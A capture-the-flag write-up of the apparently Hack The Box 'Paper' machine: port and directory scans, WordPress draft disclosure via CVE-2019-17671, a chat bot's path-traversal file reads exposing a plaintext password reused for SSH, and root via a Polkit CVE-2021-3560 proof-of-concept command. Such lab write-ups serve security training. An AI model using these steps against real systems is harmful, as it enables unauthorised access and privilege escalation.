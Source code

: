 > Author: **[secnigma][author-profile]**

## Discovery

### Port scanning

```shell
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Issuer: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-07-03T08:52:34
| Not valid after:  2022-07-08T10:32:34
| MD5:   579a 92bd 803c ac47 d49c 5add e44e 4f84
|_SHA-1: 61a2 301f 9e5c 2603 a643 00b5 e5da 5fd5 c175 f3a9
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
```

### Directories

```shell
/.html                (Status: 403) [Size: 199]
/.htm                 (Status: 403) [Size: 199]
/.                    (Status: 403) [Size: 199691]
/manual               (Status: 301) [Size: 235] [--> http://10.10.11.143/manual/]
/.htaccess            (Status: 403) [Size: 199]                                  
/.htc                 (Status: 403) [Size: 199]                                  
/.html_var_DE         (Status: 403) [Size: 199]                                  
/.htpasswd            (Status: 403) [Size: 199]                                  
/.html.               (Status: 403) [Size: 199]                                  
/.html.html           (Status: 403) [Size: 199]                                  
/.htpasswds           (Status: 403) [Size: 199]                                  
/.htm.                (Status: 403) [Size: 199]                                  
/.htmll               (Status: 403) [Size: 199]                                  
/.html.old            (Status: 403) [Size: 199]                                  
/.ht                  (Status: 403) [Size: 199]                                  
/.html.bak            (Status: 403) [Size: 199]                                  
/.htm.htm             (Status: 403) [Size: 199]                                  
/.html1               (Status: 403) [Size: 199]                                  
/.hta                 (Status: 403) [Size: 199]                                  
/.htgroup             (Status: 403) [Size: 199]                                  
/.html.printable      (Status: 403) [Size: 199]                                  
/.html.LCK            (Status: 403) [Size: 199]                                  
/.htm.LCK             (Status: 403) [Size: 199]                                  
/.html.php            (Status: 403) [Size: 199]                                  
/.htaccess.bak        (Status: 403) [Size: 199]                                  
/.htx                 (Status: 403) [Size: 199]                                  
/.htmls               (Status: 403) [Size: 199]                                  
/.htlm                (Status: 403) [Size: 199]                                  
/.html-               (Status: 403) [Size: 199]                                  
/.htm2                (Status: 403) [Size: 199]                                  
/.htuser              (Status: 403) [Size: 199]
````

### Web browsing

As seen in the previous section, the server is running Apache On CentOS:

![][frontpage]

And in Burpsuite:

```
HTTP/1.1 404 Not Found
Date: Thu, 19 May 2022 09:43:26 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Content-Length: 196
Connection: close
Content-Type: text/html; charset=iso-8859-1
```

After adding `office.paper` to the `/etc/hosts`, this comment stands out:

![][comment]

It is tempting to enumerate the blog posts URLs, but let's get more
information on Wordpress first.

## Viewing the "hidden" drafts

The domain `office.htb` appears in the feed too:

```
http://office.htb/?p=29</guid
http://office.htb/?p=31</guid
http://office.htb/?p=38</guid
http://office.htb/wp-content/uploads/2021/06/handshake-michael-1.jpg
http://office.paper/index.php/2021/06/19/feeling-alone/#comments</comments
http://office.paper/index.php/2021/06/19/feeling-alone/feed/</wfw:commentRss
http://office.paper/index.php/2021/06/19/feeling-alone/</link
http://office.paper/index.php/2021/06/19/hello-scranton/#comments</comments
http://office.paper/index.php/2021/06/19/hello-scranton/feed/</wfw:commentRss
http://office.paper/index.php/2021/06/19/hello-scranton/</link
http://office.paper/index.php/2021/06/19/secret-of-my-success/feed/</wfw:commentRss
http://office.paper/index.php/2021/06/19/secret-of-my-success/</link
http://office.paper/index.php/2021/06/19/secret-of-my-success/#respond</comments
http://office.paper/index.php/feed/
http://office.paper</link
http://office.paper/wp-content/uploads/2021/06/Dunder_Mifflin_Inc-150x150.png</url
http://office.paper/wp-content/uploads/2021/06/handshake-michael-1-300x261.jpg
http://office.paper/wp-content/uploads/2021/06/handshake-michael-1.jpg
http://purl.org/dc/elements/1.1/
http://purl.org/rss/1.0/modules/content/
http://purl.org/rss/1.0/modules/slash/
http://purl.org/rss/1.0/modules/syndication/
https://wordpress.org/?v=5.2.3</generator
http://wellformedweb.org/CommentAPI/
http://www.w3.org/2005/Atom
```

Wordpress version is `5.2.3`, which dates back to 2019:

![][wordpress-version]

Looking at [CVE Details][cve-list], close to 40 vulnerabilities could apply.

The drafts can be seen thanks to [CVE 2019-17671][cve-2019-17671]:

![][draft]

Which leads to the chat server:

![][chat-server]

## The chat server

A lot of information can be gathered from the API calls, but the best is in
the chat itself:

![][recyclops-commands]

The bot implements LFI via the commands `recyclops list ..`:

```
drwx------ 11 dwight dwight 281 Feb 6 07:46 .
drwxr-xr-x. 3 root root 20 Jan 14 06:50 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwx------ 2 dwight dwight 44 Jul 3 2021 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 2021 .ssh
-r-------- 1 dwight dwight 33 May 19 04:40 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
```

And `recyclops file ../hubot/.env`:

```
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

The password works as SSH credentials!..

## PE

[LinPEAS][linpeas] reveals that the box is vulnerable to CVE 2021-3560,
aka Polkit PE. There's a [POC][cve-2021-3560] made by the author of the box.

It needed 3 runs to work for me:

```shell
bash poc.sh -u=apehex -p=heyhey
su apehex
sudo bash
```

[author-profile]: https://app.hackthebox.com/users/92926
[recyclops-commands]: images/recyclops-commands.png
[comment]: images/comment.png
[chat-server]: images/chat-server.png
[cve-2019-17671]: https://www.cvedetails.com/cve/CVE-2019-17671/
[cve-2021-3560]: https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
[cve-list]: https://www.cvedetails.com/product/4096/Wordpress-Wordpress.html?vendor_id=2337
[draft]: images/draft.png
[frontpage]: images/frontpage.png
[wordpress-version]: images/wordpress-version.png
